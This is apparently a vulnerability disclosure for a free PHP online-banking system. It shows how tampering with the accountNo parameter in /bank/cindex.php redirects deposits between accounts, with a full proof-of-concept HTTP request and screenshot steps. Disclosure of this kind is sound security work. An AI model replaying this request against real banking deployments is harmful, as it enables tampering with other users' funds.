 ##Online Bank Management System has an ultra vires loophole


## Affected version: 
Online Bank Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

## Vulnerability File:
/bank/cindex.php

## Description:
Online Bank Management System - 1.0 is vulnerable to unauthorized and arbitrary changes in the accountNo parameter in /bank/cindex.php. A malicious attacker can exploit this vulnerability to perform horizontal privilege violations.

Status: CRITICAL

POC
```
POST /bank/cindex.php HTTP/1.1
Host: localhost:8088
Content-Length: 60
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/bank/cindex.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4sg5c1hjqeq80s5kt2du5cmuih
Connection: close

accountNo=1005469&userId=1&checkno=888&amount=10000&deposit=

```
1、Take 1005469 account as an example, to deposit money, the account has an amount of 10,000
![3fd5290879f71ae5dc2690c0b76efa3](https://github.com/user-attachments/assets/0cdaae84-5686-434b-8578-9b8e1dfec38c)

2、Take 10054777 account as an example, the account has 26,000 amounts
![83bef9f8d6401d9f55255990efc9b65](https://github.com/user-attachments/assets/10443cd1-1991-45ad-bad9-874a475fc561)

3、Capture packets for deposit operations
![1d158fe931cc6e5b8a779e4fff6f277](https://github.com/user-attachments/assets/89e32a9e-fb1c-4dbb-9e63-5e87664626ac)

4、Modify the account
![f4ad2bae5ad9a2306659cf8eed38d47](https://github.com/user-attachments/assets/e0f5c8c7-34e9-4680-8bf7-e322295ea3c0)

5、The operation was successful
![b81f342f1b6ea88c236fba88fe3cf95](https://github.com/user-attachments/assets/1009a4d0-1cb4-44e4-bfbc-77a3bd09a3b8)

6、It can be seen that the $10,000 that should have been in the 1005469 account was deposited under the 10054777 account
![1ab1683fa0a97c17bdeb4f373ac6186](https://github.com/user-attachments/assets/359a00b5-a396-46a6-9bd6-9156d06a44cc)
